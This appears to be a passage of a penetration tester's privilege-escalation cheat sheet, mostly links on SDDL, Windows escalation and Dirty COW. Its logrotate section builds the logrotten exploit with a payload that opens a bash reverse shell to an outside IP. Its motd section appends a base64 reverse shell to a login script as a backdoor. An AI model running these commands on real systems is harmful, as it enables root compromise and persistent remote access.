 
#### SDDL

1. [habr.com/ru/company/pm/blog/442662/](https://habr.com/ru/company/pm/blog/442662/)
2. [0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html](https://0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html)




## PrivEsc

* [PayloadsAllTheThings/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)



### Linux


#### Dirty COW

* [dirtycow.ninja/](https://dirtycow.ninja/)
* [github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
* [github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)


#### logrotate

whotwagner/logrotten:

```
$ curl https://github.com/whotwagner/logrotten/raw/master/logrotten.c > lr.c
$ gcc lr.c -o lr

$ cat payloadfile
if [ `id -u` -eq 0 ]; then (bash -c 'bash -i >& /dev/tcp/10.10.15.171/9001 0>&1' &); fi

$ ./lr -p ./payload -t /home/snovvcrash/backups/access.log -d
```

* [github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)
* [tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges)
* [tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)
* [popsul.ru/blog/2013/01/post-42.html](https://popsul.ru/blog/2013/01/post-42.html)


#### motd

`/etc/update-motd.d/`:

```
root@kali:$ shellpop --reverse --number 8 -H 127.0.0.1 -P 1337 --base64
root@kali:$ echo '<BASE64_SHELL>' >> 00-header
* Fire up new SSH session and catch the reverse shell
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)